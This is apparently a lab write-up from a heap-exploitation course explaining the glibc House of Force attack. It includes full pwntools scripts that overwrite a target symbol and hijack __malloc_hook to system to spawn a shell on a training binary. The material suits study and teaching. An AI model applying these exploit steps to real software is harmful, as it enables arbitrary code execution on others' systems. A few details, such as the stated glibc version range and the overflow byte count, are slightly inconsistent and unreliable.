

# Heap Journey - House of Force

## GLIBC Version Checking

The house of force is an older exploitation technique that works on glibc 2.27 and lower.
To get the correct version of glibc it is possible to run the libc file itself since it is an ELF shared object binary.

```
ldd $(which id)
    linux-vdso.so.1 (0x00007ffd55369000)
    libc.so.6 => /usr/lib/libc.so.6 (0x00007f36b1200000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f36b155e000)
```

```
file /lib64/ld-linux-x86-64.so.2
/lib64/ld-linux-x86-64.so.2: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), static-pie linked, BuildID[sha1]=47da73e90a3ede988e228212d8247a94f9da36a0, stripped
```

```
/lib64/ld-linux-x86-64.so.2 --version
ld.so (GNU libc) stable release version 2.38
...
```

libc.so.6 is generally a symlink to a specific version of libc:  

- in stable distros libc version doesn't often change
- in rolling distros it is often updated

## House of Force Concept

The basic concept is to use malloc internals against itself:

- The **'House of Force'** exploits the 'top chunk' by overflowing into the top chunk's "size" header.  
The goal is to set a very large size (0xFFFFFFFFFFFFFFFF or -1) so that the top chunk wraps all the virtual address space. This could lead to arbitrary writes
in memory or code execution when heap chunk's or libc addresses are leaked.
    - *Note*: Sometimes 0xFFFFFFFFFFFFFFFF can break things. In that case, try a smaller number (eg: 0xFFFFFFFFFFFFFFF1).

Many GLIBC implementation do not check top chunk size integrity:

- Check if any mitigation is implemented for the currently used libc version.
- Since libc version depends on the system running the binary (unless libc.so path is explicitly set), the same binary can be vulnerable on some system rather than others .

<br>



## Example: Arbitrary Write

From Udemy course "Linux Heap Exploitation - Part 1", the binary *house_of_force* is vulnerable to this heap exploitation technique.

The aim is to perform a write in memory so that the content of memory addressed by the "target" symbol is set to an arbitrary string.

The binary leaks the heap top chunk address ("heap @") and the puts libc function address ("puts() @"). Moreover, it allows to allocate an arbitrary sized chunk into the heap without checking the input length.  
This permits overflowing the top chunk header, overriding the chunk size.

```
=============== |   HeapLAB   |  House of Force ===============
puts() @ 0x7f117f66df10
heap @ 0x252f000

1) malloc 0/4
2) target
3) quit
```

The initial content of the target is

```
> 2
target: XXXXXXXX
```

By allocating a chunk of 24 bytes with the input A * 24 + B * 8, the top chunk header gets overridden:

```
> 1
size: 24
data: AAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB
```

```
gef➤  heap chunks

Chunk(addr=0x603010, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]

Chunk(addr=0x603030, size=0x4242424242424240, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```

It means that we can perform the "house of force" attack. The first step is that of setting the top chunks size to a very large number (\*see the pwntools code at the end):   

`
malloc(b"24",b"A"*24 + p64(0xfffffffffffffff1)) 
`

The second step is that of calculating the gap between the top chunk and the "target" symbol. The goal is to span this gap by allocating an useless chunk of a particular size so that the next allocated chunk will be wrote into target memory by the malloc implementation of glibc.
This gap is calulated as **the distance between the target symbol address and the top chunk address**.  

```
target @ - header_offset - heap @ - ( last-chunk @  - heap @ )
```


When calculating this value is important to take in account that malloc will also allocate an header of size 0x10 with the final chunk, as well as the already allocated chunks, by subtracting to the gap **the distance of the last chunk to the top chunk** and the **size of a chunk header (doubled)**.

`
other_heap_allocations = 0x20
`  

`
header_offset = 0x10 * 2
`

`
distance = (elf.sym.target - header_offset - top_chunk_addr_leak - other_heap_allocations) 
`

Allocating a junk chunk with the size of the gap will make the dynamic memory allocator write the next malloc into target memory since it is the next address considerated to be "free" to allocate. This is possibile due the big size set to the top chunk that deceives the allocator.

`malloc(f"{distance}".encode(), b"JUNK")`

The last step is to allocate a chunk which content will override the target:

`malloc(b"24",b"PWNED"+b"\x00\x00\x00")`

```
> 2
target: PWNED
```
 
The complete pwntools solution is the following:

```
from pwn import *

elf = context.binary = ELF("./house_of_force")

p = gdb.debug("./house_of_force")
#p = process("./house_of_force")

def malloc(size, data):
    p.send(b"1")
    b"send size" + p.sendafter(b"size: ", size)
    b"send data:" + p.sendafter(b"data: ", data)
    b"receive prompt" + p.recvuntil(b"> ")

p.recvuntil(b"heap @ ")
top_chunk_addr_leak = int(p.recvline(),16)


# Malloc first chunk to overflow into top chunk header
p.recvuntil(b"> ")
malloc(b"24",b"A"*24 + p64(0xfffffffffffffff1))

# malloc(b"24",b"B"*10) # Useless heap allocation - check other_heap_allocations variable

# Calculate distance between heap top chunk address and "target" symbol

# Distance between the last chunk and the top chunk
#other_heap_allocations = 0x60 # example: it depends on how many heap allocation had place
other_heap_allocations = 0x20

# This offset is the size of the chunk header (0x10) doubled to make the allocator span the gap just before where the final chunk header will be written.
# If it was equal to 0x10, the chunk header would be written into the target memory and not just before
header_offset = 0x10 * 2

distance = (elf.sym.target - header_offset - top_chunk_addr_leak - other_heap_allocations)

print(f"Top chunk: 0x{top_chunk_addr_leak:02x}")
print(f"Target symbol: 0x{elf.sym.target:02x}")
print(f"Distance: 0x{distance:02x}")
print(f"Distance: {distance}")

malloc(f"{distance}".encode(), b"JUNK")
malloc(b"24",b"PWNED"+b"\x00\x00\x00")


p.interactive()
```

## Example: Command Execution

When weaponizing the house of force techinique, some of common targets which can lead to code execution are:

- **PLT (procedure linking table)**: array of function pointers external to the program, such as those offered by GLIBC. This array is writable at some point of the execution to allow the lazy linking, whereby a function's address is only resolved when it's first called. 
- **fini_array**: array of function pointers; this functions are called when the program is exiting.

Since the binary is compiled with **RELRO**, PLT and fini_array are marked as read-only after initialization.

```
checksec house_of_force
[*] '/home/rick/Scrivania/Linux Heap Exploitation 1/HeapLAB/house_of_force/house_of_force'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'../.glibc/glibc_2.28_no-tcache'
```

[Relocation Read-Only (or RELRO) is a security measure which makes some binary sections read-only.](https://ctf101.org/binary-exploitation/relocation-read-only/)

If any *function pointer* is present in the heap or stack and used during the target binary execution, it could also be a valid target.

GLIBC has its own PLT alongside with two other structures called **\_\_exit_funcs** and **tls_dtors** which are similar to the fini_array:

- even though the GLIBC PLT is writable, it can happen that no function in it are called by the program;
- the \_\_exit_funcs and tls_dtors are generally hard to abuse due to other protection mechanisms.

Another possibility is represented by the **malloc hooks**; manipulating these it's possible to hijack the execution flow.

- Each malloc core function (malloc, free, etc.) is associated to an hook which is a writable pointer in the GLIBC data section.

The libc **system** function permits to execute arbitrary shell commands; since the ASRL is enabled, the first step is to determine where in memory the libc functions are loaded.
Thank to the leaked puts address, it is possibile to find the libc position in memory by calculating the offset between the leaked puts address and the libc shared object puts symbol.

``p.recvuntil(b"puts() @ ")``  
``libc_puts_addr_leak = int(p.recvline(), 16)``  
``libc_addr = libc_puts_addr_leak - libc.sym.puts``

It's also possibile to get the symbol location into the libc ELF manually:

```
objdump -d -M intel /usr/lib/libc.so.6 | grep -Eo "[a-e0-9]{16}\s<\w*puts@@GLIBC"
0000000000078350 <_IO_fputs
```

This time the distance will be calculated from the \_\_malloc_hook symbol. Within the junk heap is written the "/bin/sh" string which will be used next when calling the system function to open a shell.  

``distance = (libc.sym.__malloc_hook - header_offset - top_chunk_addr_leak - other_heap_allocations)``
``malloc(f"{distance}".encode(), b"/bin/sh\0")``

This will make the next malloc call write into \_\_malloc_hook memory space. The goal is to assign to the \_\_malloc_hook the address of the *system* symbol:

``malloc(b"24", p64(libc.sym.system))``

The next malloc call will trigger the \_\_malloc_hook which is now equal to the system function address. The malloc size parameter will be passed to the system function so this time the "/bin/sh" string address will be passed to the malloc function as size parameter to make the system function open the shell.

``malloc(f"{shell_string_addr}".encode(), b"")``

An alternative is that of search for the "/bin/sh" string into the libc share object itself since it is surely contained in it.

``malloc(next(libc.search(b"/bin/sh")), b"")``


The complete pwntools solution is the following:

```
from pwn import *

elf = context.binary = ELF("./house_of_force")
libc = ELF(elf.runpath + b"/libc.so.6")

p = gdb.debug("./house_of_force")
#p = process("./house_of_force")

def malloc(size, data):
    p.send(b"1")
    p.sendafter(b"size: ", size)
    p.sendafter(b"data: ", data)
    p.recvuntil(b"> ")

p.recvuntil(b"puts() @ ")
libc_puts_addr_leak = int(p.recvline(), 16)
p.recvuntil(b"heap @ ")
top_chunk_addr_leak = int(p.recvline(),16)

# Find the memory address where libc is loaded by calculating the offset between leaked puts address and libc puts symbol in the shared object
libc_addr = libc_puts_addr_leak - libc.sym.puts
libc.address = libc_addr

# Malloc first chunk to overflow into top chunk header
p.recvuntil(b"> ")
malloc(b"24",b"A"*24 + p64(0xfffffffffffffff1))

# Distance between the last chunk and the top chunk
other_heap_allocations = 0x20

# This offset is the size of the chunk header (0x10) doubled to make the allocator span the gap just before where the final chunk header will be written.
# If it was equal to 0x10, the chunk header would be written into the target memory and not just before
header_offset = 0x10 * 2

distance = (libc.sym.__malloc_hook - header_offset - top_chunk_addr_leak - other_heap_allocations)

print(f"Top chunk: 0x{top_chunk_addr_leak:02x}")
print(f"Libc Address: 0x{libc_addr:02x}")
print(f"__malloc_hook symbol: 0x{libc.sym.__malloc_hook:02x}")
print(f"Distance: 0x{distance:02x}")
print(f"Distance: {distance}")

malloc(f"{distance}".encode(), b"/bin/sh\0")
malloc(b"24", p64(libc.sym.system))

shell_string_addr = top_chunk_addr_leak + 0x30
print(f"Shell string addr: 0x{shell_string_addr:02x}")

p.timeout = 0.1 # Set low timeout otherwise pwntools will wait for an output that will not arrive due the spawned shell
malloc(f"{shell_string_addr}".encode(), b"")

p.interactive()
```
